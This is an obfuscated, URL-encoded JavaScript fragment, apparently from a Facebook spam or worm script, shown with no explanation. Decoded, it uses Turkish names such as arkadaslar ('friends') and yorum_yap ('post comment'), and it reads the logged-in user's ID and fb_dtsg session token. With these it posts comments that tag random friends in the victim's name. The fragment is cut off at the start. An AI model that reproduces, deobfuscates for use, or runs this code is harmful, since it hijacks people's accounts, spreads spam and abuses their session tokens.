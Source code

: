 %5B%69%5D%29%7B%6D%65%73%61%6A%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%2B%3D%5F%30%78%61%32%32%63%5B%32%33%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%3B%7D%20%3B%7D%20%3B%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%6D%65%73%61%6A%29%3B%7D%20%3B%7D%20%3B%7D%20%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%32%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%37%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%38%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%69%66%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%33%32%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%31%5D%5D%28%5F%30%78%61%32%32%63%5B%33%30%5D%29%3E%3D%30%29%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%34%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%65%6C%73%65%20%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%36%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%29%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%52%61%6E%64%6F%6D%41%72%6B%61%64%61%73%28%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%61%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%30%3B%69%3C%39%3B%69%2B%2B%29%7B%5F%30%78%37%38%39%32%78%61%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%7D%20%3B%72%65%74%75%72%6E%20%5F%30%78%37%38%39%32%78%61%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%5F%30%78%37%38%39%32%78%63%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%64%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%30%5D%2B%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%31%5D%2B%65%6E%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%5F%30%78%37%38%39%32%78%63%29%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%37%5D%2B%69%64%2B%5F%30%78%61%32%32%63%5B%34%38%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%39%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%31%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%36%5D%2B%66%62%5F%64%74%73%67%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%37%5D%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%35%38%5D%2C%5F%30%78%61%32%32%63%5B%35%39%5D%2C%74%72%75%65%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%32%5D%5D%28%5F%30%78%61%32%32%63%5B%36%30%5D%2C%5F%30%78%61%32%32%63%5B%36%31%5D%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%26%26%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%33%5D%5D%3D%3D%32%30%30%29%7B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%34%5D%5D%3B%7D%20%3B%7D%20%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%5F%30%78%37%38%39%32%78%38%29%3B%7D%20%3B%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%3B"));
